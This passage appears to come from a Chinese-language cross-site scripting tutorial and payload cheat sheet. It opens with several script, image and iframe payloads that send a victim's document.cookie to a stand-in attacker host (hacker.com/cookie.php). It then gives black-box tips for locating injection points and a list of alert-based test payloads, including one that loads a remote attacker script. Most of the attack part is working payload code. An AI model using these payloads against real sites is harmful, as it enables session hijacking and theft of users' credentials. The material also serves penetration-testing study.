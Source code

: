 ```html

<script>document.location="http://www.hacker.com/cookie.php?cookie="+document.cookie</script>

<script>new Image().src="http://www.hacker.com/cookie.php?cookie="+document.cookie;</script>

<img src="http://www.hacker.com/cookie.php?cookie='+document.cookie"></img>

<iframe src="http://www.hacker.com/cookie.php?cookie='+document.cookie"></iframe>
<script>new Image().src="http://www.hacker.com/cookie.php?cookie='+document.cookie";

img.width = 0;

img.height = 0;

</script>
```

## 3. 利用演示

##### 0 XSS寻找（黑盒测试）

```
尽可能找到一切用户可控并且能够输出在页面代码中的提交框，要按照其作用原理来判断可能存在的漏洞类型：
		1、会将数据存入数据库的提交框
		2、会与数据库交互的提交框
		3、与页面js交互的提交框

搜索目标：
	URL的每一个参数、URL本身、表单、搜索框、常见业务场景
	重灾区：发布文章、发布帖子、评论区、留言区、个人信息、订单信息、添加文章标签等
	针对型：站内信、网页即时通讯、私信、意见反馈
	存在风险：搜索框、当前目录、图片属性等
```

##### 1 注入点判断

在评论框、提交框等输入栏内插入xss payload进行测试：

```html
1、输入字符测试
< > ' " { } ; ()


2、弹框警告测试：
<script>alert(1)</script>
<script>alert`1`</script>		//过滤括号，使用反引号来代替括号
<SCRIPT>alert(1)</SCRIPT>
<script src=x onerror=alert(1)></script> //引入x,由于x不存在,触发οnerrοr函数,进行弹框
<script src='http://www.test.com/probe.js'></script>//直接引入到攻击者的后台网站(可以直接用beef)
<script type="text/javascript">alert(1)</script>
<img src=x onerror=alert(1)> //img插入图片,οnerrοr为加载失败执行命令,触发弹框
<svg/onload=alert(1)>		    //svg标签插入图形,onload表示页面加载完成,触发弹框
<video src=x onerror=alert(1)>  //插入视频时,错误就触发弹框
<audio src=x onerror=alert(1)>  //插入声音时,错误就触发弹框
<a href="javascript:alert('1')">2</a> //创建标签2，点击触发弹窗
    如果你在输入框中输入的代码直接出现在a标签的href属性里面，那就直接写javascript:alert(/xss/)
<iframe src="javascript:alert(1)"></iframe>  //用伪协议进行弹框,火狐/IE/谷歌都支持
```
